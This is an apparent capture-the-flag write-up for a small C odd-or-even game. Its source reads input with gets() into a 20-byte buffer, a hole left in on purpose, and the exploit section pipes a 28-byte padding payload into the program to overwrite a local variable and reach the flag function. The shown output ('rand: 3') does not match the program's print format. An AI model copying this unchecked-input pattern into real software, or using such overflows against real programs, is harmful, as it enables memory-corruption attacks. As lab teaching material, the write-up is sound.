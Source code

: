 # Holjak

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

void flag(void)
{
    puts("Well done, you have the flag!");
}

int main(int argc, char **argv)
{
    char input[20];
    printf("Hello this is holjak game\n");
    printf("Please choose between odd and even.(Type '1' or '2')\n");
    printf("1. Odd\n2. Even\n");
    srand(time(NULL));
    int answer = rand() % 2;
    gets(input);
    int guess = atoi(input) % 2;
    if (answer == 3)
    {
        flag();
        exit(1);
    }
    printf("G: %d, A: %d\n", guess, answer);
    if (guess == answer)
        printf("You are correct\n");
    else
        printf("You are wrong, too bad\n");
    exit(0);
}
```

This is a simple “holjak”(odd or even in Korean) game. The program chooses a random odd or evne number. The player has to guess if the number is odd or even.  The ‘answer’ variable is always 0 or 1, as it is a modulus of 2. If the player can exploit the game and tamper the answer so that it becomes 3, an impossible answer, they get the flag.

## Exploit

Simple bof.

```c
$ (python3 -c 'print("A" * 28 + "\x03")') | ./holjak
Hello this is holjak game
Please choose between odd and even.(Type '1' or '2')
1. Odd
2. Even
rand: 3
Well done, you have the flag!
```